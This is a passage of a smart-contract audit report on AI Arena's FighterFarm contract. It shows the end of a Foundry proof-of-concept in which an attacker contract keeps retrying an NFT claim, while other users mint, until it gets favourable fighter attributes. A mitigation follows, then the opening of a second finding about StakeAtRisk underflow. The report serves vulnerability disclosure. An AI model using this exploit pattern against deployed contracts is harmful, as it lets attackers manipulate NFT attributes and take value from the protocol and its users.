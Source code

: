```solidity
        numToMint[0],
        numToMint[1],
        0, // nftsClaimed[msg.sender][0],
        0 // nftsClaimed[msg.sender][1]
    ));

    bytes memory prefix = "\x19Ethereum Signed Message:\n32";
    bytes32 prefixedHash = keccak256(abi.encodePacked(prefix, msgHash));

    (uint8 v, bytes32 r, bytes32 s) = vm.sign(signerPrivateKey, prefixedHash);
    bytes memory claimSignature = abi.encodePacked(r, s, v);
    vm.stopPrank();

    for(uint160 i = 100; _fighterFarmContract.balanceOf(address(attacker_contract_wallet)) == 0; i++){
        vm.prank(attacker_eoa);
        attacker_contract_wallet.tryClaim(numToMint, claimSignature, claimModelHashes, claimModelTypes);

        // other user mints NFT, the fighters.length changes and DNA would be changed
        _mintFromMergingPool(address(i)); // random user claim their NFT
    }
   
    assertEq(_fighterFarmContract.balanceOf(address(attacker_contract_wallet)), 1);
    uint256 tokenId = _fighterFarmContract.tokenOfOwnerByIndex(address(attacker_contract_wallet), 0);
    (,,uint256 weight,,,,) = _fighterFarmContract.getAllFighterInfo(tokenId);
    assertEq(weight, 95);
}
```

## Lines of code
https://github.com/code-423n4/2024-02-ai-arena/blob/1d18d1298729e443e14fea08149c77182a65da32/src/FighterFarm.sol#L484

## Tool used
Manual Review

## Recommended Mitigation Steps
Users should only request minting, and attributes values should not be determined in the transaction called by the user. When a user claims an NFT, it should only mint the NFT and end. The attribute should be set by the admin or third-party like chainlink VRF after minting so that the user cannot manipulate it.

It’s not about lack of randomless problem, this is about setting attributes at same transaction when minting NFT. Even if you use chainlink, the same bug can happen if you set the attribute and mint NFTs in the same transaction.

# [M-02] NFTs can be transferred even if StakeAtRisk remains, so the user's win cannot be recorded on the chain due to underflow, and can recover past losses that can't be recovered(steal protocol's token)
## Impact
Cannot record a user's victory on-chain, and it may be possible to recover past losses(which should impossible).
